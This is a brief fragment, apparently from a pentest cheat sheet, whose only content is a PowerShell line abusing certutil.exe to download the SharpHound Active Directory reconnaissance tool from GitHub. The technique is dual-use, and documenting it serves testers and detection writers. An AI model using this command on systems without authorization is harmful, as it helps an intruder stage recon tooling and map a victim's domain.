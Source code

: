 # Certutil cache

```powershell
certutil.exe -urlcache -split -f https://github.com/BloodHoundAD/SharpHound/releases/download/v1.0.3/SharpHound-v1.0.3.zip sharphound.zip
```


